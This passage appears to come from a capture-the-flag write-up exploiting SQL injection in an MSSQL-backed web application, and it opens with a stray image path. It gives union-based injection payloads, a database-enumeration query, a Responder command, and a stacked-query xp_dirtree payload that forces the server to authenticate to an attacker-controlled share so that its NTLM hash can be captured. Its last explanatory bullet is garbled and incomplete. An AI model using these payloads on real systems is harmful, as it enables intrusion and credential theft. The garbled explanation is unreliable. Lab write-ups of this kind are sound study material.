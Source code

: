 `abcd' union select 1,2,3,4,5,6;-- -` is used to inject a new query into a legitimate SQL query and extract data from the database. The `union` keyword is used to join the results of the original query and the injected query, and the `select` statement is used to specify the values to be returned. The `;` character is used to terminate the query, and the `--` and `-` characters are used to start and complete a comment.

***

I’ll try to get the DB version. [This cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet#database-version) shows how with different database types. It’s fair to guess that this is either MSSQL (since it’s Windows) or MySQL (very common with PHP). Both of those use `@@version`, and it works:

<figure><img src="https://0xdfimages.gitlab.io/img/image-20220912160305018.png" alt=""><figcaption></figcaption></figure>

lets try stacked queries to get a Net-NTLMv2 hash

{% embed url="https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html" %}

after setting up responder ->

```
responder -I tun0 -wrf
```

and input:

```
abcd'; use master; exec xp_dirtree '\\10.10.14.166\share';-- -
```

we get some form of response:

<figure><img src="../../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

Unfortunately hash cat won't crack because it's a machine account so unlikely to be crackable ->

```
abcd'union select 1,name,3,4,5,6 from master..sysdatabases;-- -
```

* `union select 1,name,3,4,5,6` is the second query that is being injected. The `select` keyword is used to specify the columns to be returned. In this case, selecting the values `1`, `name`, `3`, `4`, `5`, and `6`. The `name` column is being selected from the `master..sysdatabases` table.
* `from master..sysdatabases` specifies the table from which the data is being selected. The `master` database contains system information about instance, and the `ases` table contains information about all on the.

